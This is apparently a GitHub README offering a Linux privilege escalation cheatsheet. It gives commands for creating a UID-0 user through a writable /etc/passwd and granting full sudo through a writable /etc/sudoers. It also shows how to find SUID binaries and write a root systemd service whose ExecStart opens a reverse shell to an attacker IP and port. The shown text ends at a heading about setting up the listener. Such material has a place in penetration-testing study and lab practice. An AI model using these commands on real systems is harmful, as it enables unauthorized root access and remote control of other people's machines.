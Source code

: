 # 🏄‍♀️ LInux-Privilege-Escalation

Linux Privilege Escalation Cheatsheet

## Passwd File

For this you need to have write permission to the /etc/passwd file

```
# Create Encrypted Password and Salt
openssl passwd -1 -salt <username> <password>

# Add The Password To /etc/passwd
sudo nano /etc/passwd 
<username>:<hashed password>:0:0:,,,:/home/nikki:/bin/bash

# Login As The New User
su <username>
```

## Sudoers File

For this you need to have write permission on the /etc/sudoers

```
sudo nano /etc/sudoers

# Add a new user in the User privilege specification section
<username> ALL=(ALL:ALL) ALL
```

### Switch To The New User

```
su <username>

sudo -i
```

## Systemctl - SUID Binary

```
# Find The SUID Binaries
find / -perm -u=s -type f 2>/dev/null

# Locate Service Files
locate .service

cat /usr/lib/systemd/system/udev.service

# Define Your Own Service
cd /tmp

nano shell.service

shell.service
[Unit]
Description=reverse shell

[Service]
User=root
ExecStart=/bin/bash -c 'bash -i >&/dev/tcp/<attacker ip>/<attacker port> 0>&1'

# Setup The Listener
```